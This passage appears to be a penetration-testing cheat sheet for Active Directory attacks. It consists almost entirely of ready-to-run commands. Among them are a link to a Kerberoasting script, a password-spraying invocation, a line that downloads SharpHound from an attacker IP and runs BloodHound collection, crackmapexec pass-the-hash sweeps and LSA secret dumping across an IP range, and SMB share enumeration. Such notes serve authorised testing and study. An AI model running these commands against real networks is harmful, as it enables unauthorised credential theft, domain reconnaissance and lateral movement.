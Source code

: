 or  

- https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

## Password Spraying
```powershell
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```
https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

## Enumeration - BloodHound
-> Install - Attacker VM
```bash
sudo apt install bloodhound
```

-> neo4j start - http://localhost:7474/
```bash
sudo neo4j start
```

-> Enumeration - Windows
```powershell
iwr -uri <ip>/SharpHound.ps1 -Outfile SharpHound.ps1
. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All,loggedon
Invoke-BloodHound -CollectionMethod All -Verbose
Invoke-BloodHound -CollectionMethod LoggedOn -Verbose
```

## Access Validation 
-> Validation of network user credentials via smb using crackmmapexec  
```bash
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> -d <domain> --continue-on-success
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> -d <domain> 
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> --local-auth --lsa  
crackmapexec smb 192.168.0.10-20 -u administrator -p <password>
```

-> Connect via smbclient
```bash
smbclient //ip -U <user> -L
```

-> smbmap
```bash
smbmap -H <ip> -u <user> 
```

-> See read permission of given user on smb shares
```bash
crackmapexec smb <IP> --shares -u <user> -p '<pass>'
```
